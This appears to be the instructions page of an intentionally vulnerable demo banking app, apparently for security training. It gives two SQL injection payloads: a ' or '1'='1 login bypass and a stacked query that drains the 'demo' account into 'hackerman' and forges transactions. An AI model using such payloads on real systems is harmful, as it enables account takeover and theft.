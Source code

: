 # SQL Injections you can try (EASY):
Enter a username into the login field followed by ' or '1'='1
This will let you bypass the password and login as that user.

```
' or '1'='1
```

# SQL Injections you can try (COMPLEX):
Paste the following into the username field. An error will be thrown but the statement will still execute. This query will transfer the entire balance from account with username 'demo' to account 'hackerman'

```
'; UPDATE bank_bankaccount
SET balance = balance + (SELECT balance FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo'))
WHERE owner_id = (SELECT id FROM auth_user WHERE username='hackerman');

INSERT INTO bank_transaction (bank_account_id, amount, note, type, transaction_date)
VALUES (
  (SELECT id FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='hackerman')),
  (SELECT balance from bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
  'All of demo users money!',
  'Deposit',
  '0'
);

INSERT INTO bank_transaction (bank_account_id, amount, note, type, transaction_date)
VALUES (
  (SELECT id FROM bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
  -1*(SELECT balance from bank_bankaccount WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo')),
  'Youve been hacked by the infamous Hackerman!',
  'Withdrawal',
  '0'
);

UPDATE bank_bankaccount
SET balance = 0
WHERE owner_id = (SELECT id FROM auth_user WHERE username='demo'); 

SELECT * FROM auth_user WHERE username='fail
```
